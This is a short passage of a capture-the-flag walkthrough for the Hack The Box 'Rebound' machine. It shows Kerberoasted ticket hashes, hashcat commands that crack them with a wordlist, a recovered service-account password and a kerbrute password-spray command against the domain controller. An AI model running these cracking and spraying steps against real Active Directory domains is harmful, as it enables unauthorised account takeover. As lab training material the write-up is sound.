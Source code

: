 - Got hashes for:

\$krb5tgs\$18\$krbtgt\$REBOUND.HTB\$\***krbtgt**\*

\$krb5tgs\$18\$DC01\$\$REBOUND.HTB\$\***DC01\$**\*

\$krb5tgs\$23\$\*ldap_monitor\$REBOUND.HTB\$**ldap_monitor**\*

\$krb5tgs\$18\$delegator\$\$REBOUND.HTB\$\***delegator\$**\*


- For **\$krb5tgs\$18\$**:

```bash
hashcat -m 19700 -a 0 hash_file18 /usr/share/wordlists/rockyou.txt

```
- For **\$krb5tgs\$23\$**:

```bash
hashcat -m 13100 -a 0 hash_file23 /usr/share/wordlists/rockyou.txt

```

![image11](../resources/ef6c5b8250954455a0aaaa744000a6dc.png)

- Got credentials:
**ldap_monitor : 1GR8t@$$4u**


![image12](../resources/4a7d04c639344df1868e0885f96a06e3.png)

- Password Spray:

```bash
./kerbrute passwordspray valid_users '1GR8t@$$4u' --dc rebound.htb -d rebound.htb

```
